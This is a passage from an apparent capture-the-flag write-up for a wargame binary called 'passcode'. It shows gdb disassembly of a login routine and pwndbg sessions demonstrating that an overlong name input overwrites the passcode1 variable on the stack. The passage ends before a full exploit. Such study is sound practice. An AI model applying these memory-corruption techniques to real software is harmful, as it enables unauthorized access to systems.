   0x0804859d <+57>\:    mov    DWORD PTR [esp],eax  0x080485a0 <+60>\:    call   0x8048420 <printf@plt>  
  0x080485a5 <+65>\:    mov    eax,0x8048783  
  0x080485aa <+70>\:    mov    edx,DWORD PTR [ebp-0xc]  
  0x080485ad <+73>\:    mov    DWORD PTR [esp+0x4],edx  0x080485b1 <+77>\:    mov    DWORD PTR [esp],eax  0x080485b4 <+80>\:    call   0x80484a0 <__isoc99_scanf@plt>  
  0x080485b9 <+85>\:    mov    DWORD PTR [esp],0x8048799  
  0x080485c0 <+92>\:    call   0x8048450 <puts@plt>  0x080485c5 <+97>\:    cmp    DWORD PTR [ebp-0x10],0x528e6  0x080485cc <+104>\:   jne    0x80485f1 <login+141>  0x080485ce <+106>\:   cmp    DWORD PTR [ebp-0xc],0xcc07c9  0x080485d5 <+113>\:   jne    0x80485f1 <login+141>  
  0x080485d7 <+115>\:   mov    DWORD PTR [esp],0x80487a5  
  0x080485de <+122>\:   call   0x8048450 <puts@plt>  
  0x080485e3 <+127>\:   mov    DWORD PTR [esp],0x80487af  
  0x080485ea <+134>\:   call   0x8048460 <system@plt>  
  0x080485ef <+139>\:   leave   0x080485f0 <+140>\:   ret     0x080485f1 <+141>\:   mov    DWORD PTR [esp],0x80487bd  
  0x080485f8 <+148>\:   call   0x8048450 <puts@plt>  
  0x080485fd <+153>\:   mov    DWORD PTR [esp],0x0  
  0x08048604 <+160>\:   call   0x8048480 <exit@plt>
{% endhighlight %}

Note the line highlighted in red which signifies the beginning of the if statement. The hex value 0x528e6 (338150 in decimal) is compared to ebp-0x10, thus at this point in memory lies passcode1.  By the same token, the line highlighted in purple represents passcode2 in which 0xcc07c9 (13371337 in decimal) is compared to ebp-0xc.

2.  After setting a breakpoint at login+97 (0x080485c5), the program is run with a username of 101 A’s.

{% highlight bash %}
pwndbg> b *login+97  
Breakpoint 1 at 0x80485c5  
pwndbg> r  
Starting program\: /home/0xd4y/business/other/pwnable.kr/easy/passcode/passcode  
Toddler's Secure Login System 1.0 beta.  
enter you name \: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!  
enter passcode1 \: enter passcode2 \: checking...
{% endhighlight %}

3.  Now looking at the value located at ebp-0x10 shows something of interest\:

{% highlight bash %}
pwndbg> x/x $ebp-0x10  
0xffffd008\:     0x41414141
{% endhighlight %}

41 in hex is ‘A’. Therefore, upon passing a large input to the name[100] buffer, the value for passcode1 can be written into. Additionally, observe the value for passcode2 located at ebp-0xc\:

{% highlight bash %}
pwndbg> x/x $ebp-0xc  
0xffffd00c\:     0x2b959b00
{% endhighlight %}
